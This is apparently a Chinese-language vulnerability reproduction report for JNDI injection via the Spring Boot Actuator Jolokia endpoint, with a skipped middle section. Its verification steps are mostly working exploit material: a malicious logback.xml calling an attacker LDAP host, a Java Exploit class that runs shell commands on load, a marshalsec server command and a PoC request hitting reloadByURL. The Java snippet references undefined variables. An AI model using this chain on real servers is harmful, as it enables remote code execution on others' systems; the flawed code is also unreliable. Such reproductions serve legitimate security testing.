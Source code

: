 ## spring boot actuator jolokia 漏洞复现报告
更多内容参见：https://flowerlake.github.io/2019/12/03/Spring-Boot-Actuator-Jolokia/

### 0x01 漏洞测试环境

一个包含 Spring Boot Actuators 的漏洞应用，该测试环境包含4个库：spring-boot-starter-web、spring-boot-starter-actuator、spring-cloud-starter-netflix-eureka-client、jolokia-core。注意该测试需要在jdk1.8.181版本或其他版本下编译运行才可以。本文使用了Java的JNDI注入，JNDI可以对接RMI服务，也可以对接LDAP服务，LDAP也能返回JNDI Reference对象，利用过程与RMI Reference基本一致，只是lookup()中的URL为一个LDAP地址：ldap://xxx/xxx，由攻击者控制的LDAP服务端返回一个恶意的JNDI Reference对象。并且LDAP服务的Reference远程加载Factory类不受上一点中 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase等属性的限制，所以适用范围更广。

不过在2018年10月，Java最终也修复了这个利用点，对LDAP Reference远程工厂类的加载增加了限制，在Oracle JDK 11.0.1、8u182、7u191、6u201之后 com.sun.jndi.ldap.object.trustURLCodebase 属性的默认值被调整为false，还对应的分配了一个漏洞编号CVE-2018-3149。因此该测试环境需要在以下基本版本下编译，漏洞才生效。

.......

### 0x09 漏洞验证流程

1. 搭建一个简单的HTTP服务器，可用于下载logback.xml

2. “reloadByURL”函数从 http://127.0.0.1/logback.xml 下载新的配置并将其解析为Logback。 此恶意配置应具有以下内容：
```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://artsploit.com:1389/jndi" as="appName" />
</configuration>
```
3. 在易受攻击的服务器上解析此文件时，它会创建与“env-entry-name”参数值中指定的攻击者LDAP服务器的连接，从而导致JNDI进行解析。 恶意的LDAP服务器可以返回具有“引用”类型的对象，以触发在目标应用程序上执行字节码。 
4. 创建恶意类，比如实现打开计算器的操作，在构造函数 Exploit() 中写入执行代码，在恶意类加载的时候即可执行恶意代码。然后在8081端口下开启一个HTTP服务，或者使用刚才的8080端口的HTTP服务也可以。
```java
public static String exec(String command) throws Exception{
        String returnValue = "";
        BufferedInputStream inputStream = new BufferedInputStream(Runtime.getRuntime().exec(command).getInputStream());
        BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
        String lineStr = "";
        while((lineStr = bufferedReader.readLine())!=null){
            sb += lineStr + "\n";
        }
        inputStream.close();
        bufferedReader.close();
        return returnValue;   
    }
    public Exploit() throws Exception{
        String result = "";
        result = exec("open /System/Applications/Calculator.app");
        throw new Exception(exec(cmd));
    }
```

5. 开启JNDI，使用marshalsec可以很方便的开启JNDI服务
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8081/#Exploit 1389
```

6. 编写poc suite，该POC较为简单，只需要在_attack下添加一个HTTP请求即可
```
def _attack(self):
        result = {}

        payload = "/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/127.0.0.1:8080!/logback.xml"
        vul_url = self.url + payload
        headers = {
            "Content-Type": "application/x-www-form-urlencoded"
        }
        r = requests.get(vul_url, headers=headers)
        if r.status_code == 200:
            result['ShellInfo'] = {}
            result['ShellInfo']['Content'] = r.text
        return self.parse_output(result)
```
最终的测试结果如下：

![Screen Shot 2019-12-10 at 22.18.04](/Users/flowerlake/Desktop/Screen Shot 2019-12-10 at 22.18.04.png)

